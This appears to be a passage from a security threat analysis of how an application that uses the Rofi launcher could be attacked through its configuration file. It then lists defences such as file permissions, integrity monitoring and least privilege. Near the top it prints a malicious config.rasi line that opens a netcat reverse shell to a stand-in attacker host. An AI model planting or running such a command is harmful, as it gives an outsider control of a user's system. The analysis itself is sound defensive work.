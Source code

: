     ```rasi
    configuration {
        // ... existing configuration ...
        run-command: "bash -c 'nc -e /bin/bash attacker.example.com 4444'";
    }
    ```

    This malicious configuration, when loaded by Rofi, will execute a shell command that:
    *   Uses `bash -c` to execute a command in the shell.
    *   Uses `nc -e /bin/bash attacker.example.com 4444` to establish a reverse shell connection to the attacker's machine (`attacker.example.com` on port `4444`).
3.  **Exploitation:** The attacker waits for the user to launch TaskManagerApp, which in turn invokes Rofi. Rofi loads the modified `config.rasi`. The `run-command` directive is executed, and a reverse shell is established, giving the attacker interactive command-line access to the user's system with the user's privileges.
4.  **Impact:**  Complete compromise of the user's session. The attacker can now execute arbitrary commands, access files, install malware, and perform any action the user is authorized to do. This is a persistent compromise as the malicious configuration remains in place.

##### 4.2.3. Mitigation Strategies for Configuration File Manipulation:

*   **Secure File Permissions:**  **Ensure Rofi configuration files and directories are protected with appropriate file system permissions.**
    *   **Restrict Write Access:**  Configuration directories and files should be writable only by the user who owns them and the application process itself (if necessary).  Prevent write access from other users or processes.
    *   **Regularly Review Permissions:** Periodically review and audit file permissions to ensure they remain secure and haven't been inadvertently changed.

*   **Configuration Integrity Monitoring:** Implement mechanisms to detect unauthorized modifications to Rofi configuration files.
    *   **File Integrity Monitoring (FIM):** Use FIM tools to monitor Rofi configuration files for changes.  Alert administrators if unexpected modifications are detected.
    *   **Checksums/Hashes:**  Calculate and store checksums or cryptographic hashes of the expected Rofi configuration files. Regularly compare the current hashes with the stored hashes to detect modifications.

*   **Immutable Configuration (Where Possible):**  If customization is not required, consider making the Rofi configuration files immutable after initial setup. This prevents any modification, malicious or accidental.

*   **Principle of Least Privilege (Again):**  Running the application and Rofi processes with minimal privileges reduces the impact even if configuration files are manipulated. If the application runs with limited privileges, the attacker's access via a reverse shell or malicious command will also be limited.

---

### 5. Conclusion and Recommendations

The "Exploit Rofi Configuration" attack path represents a significant security risk for applications using Rofi. Both "Malicious Configuration File Injection" and "Configuration File Manipulation" can lead to severe consequences, including arbitrary code execution and system compromise.
